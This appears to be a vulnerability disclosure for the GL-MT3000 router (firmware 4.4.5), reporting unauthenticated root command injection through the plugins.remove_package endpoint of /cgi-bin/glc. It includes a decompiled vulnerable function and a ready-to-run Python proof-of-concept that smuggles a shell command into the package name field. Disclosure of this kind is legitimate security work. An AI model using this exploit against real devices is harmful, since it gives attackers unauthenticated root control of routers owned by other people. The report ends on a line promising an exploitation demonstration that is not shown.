


Submission Date: 2026.5.18
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint via the `plugins.remove_package` and `plugins.install_package` methods of the affected product. The `plugins.so` native plugin at `/usr/lib/oui-httpd/rpc/plugins.so` performs only a `strstr()` blacklist check against private package name substrings, then passes the raw package name to `sprintf()` + `system()`. The `/cgi-bin/glc` binary calls the plugin without authentication, resulting in root command execution without authentication.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc {"object":"plugins","method":"remove_package",
       "args":{"name":"pkg;<cmd>;#"}}
  -> /www/cgi-bin/glc dlopen("plugins.so") -> dlsym("remove_package")
  -> remove_package(args):
       pcVar5 = json_string_value(args.name)        // Source
       for i in [0..2]:
           strstr(pcVar5, private_pkg[i])             // Blacklist only
       sprintf(cmd, "%s remove %s >...", ipkg, pcVar5) // No shell escape
       system(cmd)                                    // SINK
```

Ghidra decompilation of `remove_package` at 0x004848 (AArch64 ELF, 1068 bytes, 26 basic blocks):



```c
undefined8 remove_package(undefined8 param_1, undefined8 param_2)
{
    // [1] Check opkg lock
    check_file_is_exist("/var/lock/opkg.lock");

    // [2] SOURCE: extract name from JSON args
    json_object_get(param_1, "name");
    pcVar5 = (char *)json_string_value();

    // [3] VALIDATION: only checks empty/whitelist — NO shell filtering
    if (pcVar5 == NULL || *pcVar5 == '\0') { error; }

    // [4] BLACKLIST: strstr() against private packages only
    // g_private_package[] = {"oui-", "gl-sdk", "base-files"}
    for (i = 0; i < 3; i++) {
        if (strstr(pcVar5, g_private_package[i]) != 0)
            error("The software uninstall unsupport!");
    }

    // [5] SINK: sprintf + system with raw pcVar5
    if (force_flag)
        sprintf(cmd, "%s remove %s --autoremove >/tmp/opkg.stdout 2>/tmp/opkg.stderr",
                ipkg_path, pcVar5);
    else
        sprintf(cmd, "%s remove %s >/tmp/opkg.stdout 2>/tmp/opkg.stderr",
                ipkg_path, pcVar5);
    system(cmd);
}
```

The `install_package` method uses the identical `sprintf("%s install %s ...")` → `system()` pattern.

Exploit the vulnerability by sending a crafted HTTP request:

```python
#!/usr/bin/env python3
"""PoC: plugins.so remove_package — opkg remove %s command injection"""
import json, ssl, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

body = {"object":"plugins","method":"remove_package",
        "args":{"name":f"pkg;({CMD})>/tmp/p19 2>&1;#"}}
req = urllib.request.Request(f"{TARGET}/cgi-bin/glc",
    data=json.dumps(body).encode(),
    headers={"Content-Type": "application/json"}, method="POST")
resp = urllib.request.urlopen(req, timeout=10, context=ctx)
print(resp.read().decode(errors="replace")[:200])
print("[+] check /tmp/p19 on target")
```

The exploitation is shown below.


